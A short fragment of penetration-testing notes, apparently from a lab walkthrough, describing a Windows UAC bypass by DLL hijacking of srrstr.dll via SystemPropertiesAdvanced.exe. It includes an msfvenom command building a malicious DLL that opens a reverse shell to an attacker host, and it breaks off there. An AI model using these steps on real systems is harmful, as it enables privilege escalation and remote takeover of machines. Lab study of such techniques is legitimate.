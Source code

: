     ```ps
    # UAC bypass methods vary in different builds
    # check Windows version
    [environment]::OSVersion.Version
    # build version 14393, cross-referenced with Windows version history, gives release 1607

    # check the UACME project - https://github.com/hfiref0x/UACME
    # it has a list of UAC bypasses with build number and technique to bypass UAC on that build

    # for example, technique no. 54 works from Windows 10 build 14393
    # this method uses 32-bit version of auto-elevating trusted binary SystemPropertiesAdvanced.exe
    # shown in this blog - https://egre55.github.io/system-properties-uac-bypass
    ```

    ```ps
    # review PATH var
    cmd /c echo %PATH%
    # this lists a writeable folder 'WindowsApps', as it is in current user's profile
    # we can use DLL hijacking with 'srrstr.dll' to bypass UAC
    ```

    ```sh
    # in attacker machine
    # generate a malicious DLL
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
